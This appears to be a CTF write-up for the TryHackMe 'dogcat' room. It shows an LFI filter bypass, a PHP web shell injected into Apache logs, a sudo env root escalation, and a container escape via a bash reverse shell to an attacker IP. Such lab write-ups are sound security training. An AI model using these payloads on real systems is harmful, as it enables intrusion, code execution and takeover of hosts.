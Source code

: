 # dogcat Writeup
https://tryhackme.com/room/dogcat


## Flag 1

First I navigate to the website running on the endpoint. The hint led me to believe that messing around with the view parameter was a good place to start. After trying different things it became obvious that they were filtering for the words cat or dog. The trick I used to get around this was:
```
?view=./dog/../../../../../../../SOME FILE
```
This is the source code filtering the requests.
* It checks for '.php' extension and adds it if missing
* It checks if view parameter includes either cat or dog
```
    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
```

After doing some research and manual checking of common files I came acrossed access.log.
```
?view=./dog/../../../../../../../var/log/apache2/access.log&ext
```
* Include the 'ext' so that it won't add the php extension to the end.

The access.log included ip, time, request, and user-agent information. I sent a modified request where I made the user-agent = `<?php system($_GET['cmd']);?>` This way when we navigate to access.log we can pass in a parameter 'cmd' which will execute commands on the system.

```?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=whoami```


I found a great blog post about log poisoning on apache servers with LFI [here](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/). I used the same metasploit module as well.

[alt text](https://github.com/nickswink/Dogcat-Writeup/blob/main/metasploit.PNG?raw=true)

* After this we drop in as user www-data and the first flag is in our current directory. 





## Flag 2

The second flag was pretty easy to find which was just a directory up.






## Flag 3 

The flag was in the root directory which we need root permissions for. After some quick manual enumeration I found that we are able to run /usr/bin/env without a password.

```
sudo -l 
Matching Defaults entries for www-data on 5d7fb280ac0c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 5d7fb280ac0c:
    (root) NOPASSWD: /usr/bin/env
```
A quick visit to [GTFOBins](https://gtfobins.github.io/gtfobins/env/) and we can run `sudo env /bin/sh` and Boom! We are root! Navigate to /root to read flag3.txt





## Flag 4

Honestly I had no idea how to get flag 4. You need to escape the docker container that you are in which was a new concept for me.

Navigate to /opt/backups

```
echo "#!/bin/bash" > backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/<YOUR-IP>/1234 0>&1'" >> backup.sh
```

On attacker machine:
```
nc -lnvp 1234
```

backup.sh runs frequently on the parent machine and will send you a priviledged parent shell when it does and the last flag is right there.
